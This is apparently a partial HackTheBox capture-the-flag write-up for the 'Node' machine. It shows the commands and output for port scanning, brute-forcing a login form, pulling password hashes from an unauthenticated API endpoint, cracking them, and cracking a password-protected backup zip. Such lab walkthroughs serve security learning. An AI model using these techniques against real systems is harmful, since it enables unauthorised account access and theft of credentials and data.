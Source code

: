 # Node | HackTheBox

### 1. Scan
```
─[us-dedivip-1]─[10.10.14.162]─[htb-jib1337@htb-eolbqcu7pq]─[~]
└──╼ [★]$ sudo nmap -A -p- -T4 10.129.71.65
Starting Nmap 7.80 ( https://nmap.org ) at 2020-12-29 02:16 UTC
Nmap scan report for 10.129.71.65
Host is up (0.22s latency).
Not shown: 65533 filtered ports
PORT     STATE SERVICE            VERSION
22/tcp   open  ssh                OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 dc:5e:34:a6:25:db:43:ec:eb:40:f4:96:7b:8e:d1:da (RSA)
|   256 6c:8e:5e:5f:4f:d5:41:7d:18:95:d1:dc:2e:3f:e5:9c (ECDSA)
|_  256 d8:78:b8:5d:85:ff:ad:7b:e6:e2:b5:da:1e:52:62:36 (ED25519)
3000/tcp open  hadoop-tasktracker Apache Hadoop
| hadoop-datanode-info: 
|_  Logs: /login
| hadoop-tasktracker-info: 
|_  Logs: /login
|_http-title: MyPlace
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.10 - 4.11 (92%), Linux 3.12 (92%), Linux 3.13 (92%), Linux 3.13 or 4.2 (92%), Linux 3.16 (92%), Linux 3.16 - 4.6 (92%), Linux 3.2 - 4.9 (92%), Linux 3.8 - 3.11 (92%), Linux 4.2 (92%), Linux 4.4 (92%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 22/tcp)
HOP RTT       ADDRESS
1   221.35 ms 10.10.14.1
2   222.80 ms 10.129.71.65

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 215.25 seconds
```
The machine is running SSH and Apache Hardoop on port 3000.

### 2. Enumeration
Going to the HTTP site on the Hardoop port shows a budding social media website called "MyPlace". The front page shows there are three new members: tom, mark and rastating.  
Running a dirbust against the site can be done by specifying a bad string in the response since every request returns 200, but nothing of any real interest is discovered.  
There is a login page - I create a script to conduct a wordlist attack on the login form since there is no protection against bruteforce (see loginattack.py).
```bash
─[us-dedivip-1]─[10.10.14.162]─[htb-jib1337@htb-eolbqcu7pq]─[~/writeups/HackTheBox/HTB_Node]
└──╼ [★]$ ./loginattack.py 
[+] Attempting wordlist attack for tom...
Attempts for tom: 0
[+] Login - tom:spongebob
[+] Attempting wordlist attack for mark...
Attempts for mark: 0
Attempts for mark: 100
Attempts for mark: 200
Attempts for mark: 300
Attempts for mark: 400
Attempts for mark: 500
Attempts for mark: 600
Attempts for mark: 700
Attempts for mark: 800
Attempts for mark: 900
Attempts for mark: 1000
Attempts for mark: 1100
Attempts for mark: 1200
Attempts for mark: 1300
Attempts for mark: 1400
[+] Login - mark:snowflake
[+] Attempting wordlist attack for rastating...
Attempts for rastating: 0
Attempts for rastating: 100
Attempts for rastating: 200
Attempts for rastating: 300
Attempts for rastating: 400
Attempts for rastating: 500
...
```
Two sets of credentials are recovered: `tom:spongebob` and `mark:snowflake`.  
Logging in as these users gives only a single page indicating there is no functionality for non-admin users. From here it can be concluded that these users are a dead end.
  
Taking a look at the site in Burpsuite, the pages are retrieving information from several endpoints. One is used to the the list of latest users: `/api/users/latest`.  
By changing this to `/api/users` the response returns a list of users and their password hashes.
```bash
─[us-dedivip-1]─[10.10.14.162]─[htb-jib1337@htb-eolbqcu7pq]─[~/writeups/HackTheBox/HTB_Node]
└──╼ [★]$ curl --silent http://10.129.71.65:3000/api/users | jq
[
  {
    "_id": "59a7365b98aa325cc03ee51c",
    "username": "myP14ceAdm1nAcc0uNT",
    "password": "dffc504aa55359b9265cbebe1e4032fe600b64475ae3fd29c07d23223334d0af",
    "is_admin": true
  },
  {
    "_id": "59a7368398aa325cc03ee51d",
    "username": "tom",
    "password": "f0e2e750791171b0391b682ec35835bd6a5c3f7c8d1d0191451ec77b4d75f240",
    "is_admin": false
  },
  {
    "_id": "59a7368e98aa325cc03ee51e",
    "username": "mark",
    "password": "de5a1adf4fedcce1533915edc60177547f1057b61b7119fd130e1f7428705f73",
    "is_admin": false
  },
  {
    "_id": "59aa9781cced6f1d1490fce9",
    "username": "rastating",
    "password": "5065db2df0d4ee53562c650c29bacf55b97e231e3fe88570abc9edd8b78ac2f0",
    "is_admin": false
  }
]
```
Searching online for the admin's hash completes a set of valid admin credentials: `myP14ceAdm1nAcc0uNT:manchester`.

### 3. Log in to the admin page
The admin's dashboard has a single link to download a backup.
```bash
divip-1]─[10.10.14.162]─[htb-jib1337@htb-gnmqkxd0jn]─[~/Downloads]
└──╼ [★]$ file myplace.backup 
myplace.backup: ASCII text, with very long lines, with no line terminators
```
The file's contents is base64 encoded.
```bash
─[us-dedivip-1]─[10.10.14.162]─[htb-jib1337@htb-gnmqkxd0jn]─[~/Downloads]
└──╼ [★]$ cat myplace.backup | base64 -d > backup.zip
─[us-dedivip-1]─[10.10.14.162]─[htb-jib1337@htb-gnmqkxd0jn]─[~/Downloads]
└──╼ [★]$ file backup.zip 
backup.zip: Zip archive data, at least v1.0 to extract
```
The zipfile has a password, but it does appear in a wordlist so it can be recovered.
```bash
─[us-dedivip-1]─[10.10.14.162]─[htb-jib1337@htb-gnmqkxd0jn]─[~/Downloads]
└──╼ [★]$ fcrackzip --dictionary -p rockyou.txt -u backup.zip 


PASSWORD FOUND!!!!: pw == magicword
```
The backup file can now be unzipped, which recovers the source code to the entire application.

